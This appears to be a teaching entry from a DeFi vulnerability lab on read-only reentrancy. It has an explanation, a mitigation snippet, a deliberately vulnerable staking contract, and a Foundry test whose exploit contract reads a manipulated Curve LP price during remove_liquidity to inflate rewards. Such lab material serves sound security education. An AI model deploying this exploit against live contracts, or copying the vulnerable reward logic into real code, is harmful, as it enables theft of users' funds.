

# Read Only Reentrancy  
[ReadOnlyReentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ReadOnlyReentrancy.sol)   
**Name:** Read-Only Reentrancy Vulnerability

**Description:**  
The Read-Only Reentrancy Vulnerability is a flaw in smart contract design that allows attackers
to exploit the "read-only" nature of a function to make unintended changes to the contract's state.
Specifically, the vulnerability arises when an attacker uses the remove_liquidity function of the ICurve contract to trigger the receive function in the ExploitContract. This is achieved by an external call from a secure smart contract "A" invoking the fallback() function in the attacker's contract.

Through this exploit, the attacker gains the ability to execute code within the fallback() function
against a target contract "B," which is indirectly related to contract "A." Contract "B" derives
the price of the LP token from Contract "A," making it susceptible to manipulation and unintended price changes through the reentrancy attack.

**Mitigation:**  
Avoid any state-changing operations within functions that are intended to be read-only.
Makerdao example:  
```
// This will revert if called during execution of a state-modifying pool function.
if (nonreentrant) {
uint256[2] calldata amounts;
CurvePoolLike(pool).remove_liquidity(0, amounts);
}
```  
REF  

https://twitter.com/1nf0s3cpt/status/1590622114834706432

https://chainsecurity.com/heartbreaks-curve-lp-oracles/

https://medium.com/@zokyo.io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334

https://www.youtube.com/watch?v=0fgGTRlsDxI    

VulnContract:  
```
contract VulnContract {
    IERC20 public constant token = IERC20(LP_TOKEN);
    ICurve private constant pool = ICurve(STETH_POOL);

    mapping(address => uint) public balanceOf;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address(this), amount);
        balanceOf[msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balanceOf[msg.sender] -= amount;
        token.transfer(msg.sender, amount);
    }

    function getReward() external view returns (uint) {
        //rewarding tokens based on the current virtual price of the pool LP token
        uint reward = (balanceOf[msg.sender] * pool.get_virtual_price()) /
            1 ether;
        // Omitting code to transfer reward tokens
        return reward;
    }
}
```
**How to Test:**

forge test --contracts src/test/ReadOnlyReentrancy.sol -vvvv  
```
// Function to test the exploitation of a read-only reentrancy vulnerability in the VulnContract
function testPwn() public {
    // Stake 10 ether into the VulnContract through the exploit contract
    hack.stakeTokens{value: 10 ether}(); 
    // Perform a read-only reentrancy attack on the VulnContract
    hack.performReadOnlyReentrnacy{value: 100000 ether}();
}

// Contract to exploit the read-only reentrancy vulnerability in VulnContract
contract ExploitContract {
    // Interfaces for interacting with the ICurve and IERC20 contracts
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    // The vulnerable contract to be exploited
    VulnContract private immutable target;

    // Constructor to initialize the vulnerable contract
    constructor(address _target) {
        target = VulnContract(_target);
    }

    // Function to stake LP tokens into the VulnContract
    function stakeTokens() external payable {
        // Amounts to be added as liquidity to the Curve pool
        uint[2] memory amounts = [msg.value, 0];
        // Add liquidity to the Curve pool and receive LP tokens in return
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // Log the price of the LP token after adding liquidity
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );
        // Approve the VulnContract to spend LP tokens on behalf of this contract
        lpToken.approve(address(target), lp);
        // Stake the LP tokens into the VulnContract
        target.stake(lp);
    }

    // Function to perform the read-only reentrancy attack on the VulnContract
    function performReadOnlyReentrnacy() external payable {
        // Amounts to be added as liquidity to the Curve pool
        uint[2] memory amounts = [msg.value, 0];
        // Add liquidity to the Curve pool and receive LP tokens in return
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // Log the price of the LP token before removing liquidity
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // Minimum amounts to be received when removing liquidity
        uint[2] memory min_amounts = [uint(0), uint(0)];
        // Remove liquidity from the Curve pool, which will trigger the receive function
        pool.remove_liquidity(lp, min_amounts);
        // Log the price of the LP token after removing liquidity
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );
        // Log the reward amount that would be received from the VulnContract
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    // Fallback function that will be triggered when removing liquidity from the Curve pool
    receive() external payable {
        // Log the price of the LP token during the removal of liquidity
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // Log the reward amount that would be received from the VulnContract
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is invoked: ", reward);
    }
}
```
Red box: exploited successful, price manipulated  
  
